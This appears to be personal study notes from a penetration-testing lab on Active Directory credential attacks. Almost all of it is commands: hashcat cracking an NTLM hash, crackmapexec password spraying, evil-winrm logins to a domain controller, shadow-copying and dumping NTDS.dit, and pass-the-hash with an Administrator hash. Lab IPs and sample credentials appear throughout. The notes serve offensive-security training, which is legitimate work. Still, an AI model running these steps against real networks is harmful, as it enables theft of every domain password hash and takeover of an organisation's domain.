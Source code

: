  Can also break hash wih:
 `sudo hashcat -m 1000 31f87811133bc6aaa75a536e77f64314 /opt/useful/SecLists/Passwords/xato-net-10-million-passwords-1000000.txt -r /opt/useful/htb_resource/custom.rule`

 # Attacking Active Directory & NTDS.dit
 To generate username lists:
 [username-anarchy](https://github.com/urbanadventurer/username-anarchy)
 `./username-anarchy -i /home/ltnbob/names.txt `

Launching the attack:
`crackmapexec smb 10.129.201.57 -u bwilliamson -p /usr/share/wordlists/fasttrack.txt`

### Capturing NTDS.dit
Connecting to a DC with Evil-WinRM
`evil-winrm -i 10.129.201.57  -u bwilliamson -p 'P@55w0rd!'`

### Checking Local Group Membership
```powershell
*Evil-WinRM* PS C:\> net localgroup

# Checking User Account Privileges including Domain
*Evil-WinRM* PS C:\> net user bwilliamson
```

### Creating Shadow Copy of C:
```powershell
*Evil-WinRM* PS C:\> vssadmin CREATE SHADOW /For=C:

# Copying NTDS.dit from the VSS
*Evil-WinRM* PS C:\NTDS> cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit

# Transfer back to attacker machine
```

# The by far easier way to dump ntds.dit below
We can also dump the `ntds` by:
`crackmapexec smb 10.129.201.57 -u bwilliamson -p P@55w0rd! --ntds`

We can also use `pass-the-hash considerations`, passing the hash instead of clear-text PW. 

`evil-winrm -i 10.129.201.57 -u Administrator -H "64f12cddaa88057e06a81b54e73b949b"`

`evil-winrm -i 10.129.117.239 -u jmarston -p "P@ssword"'!'""`

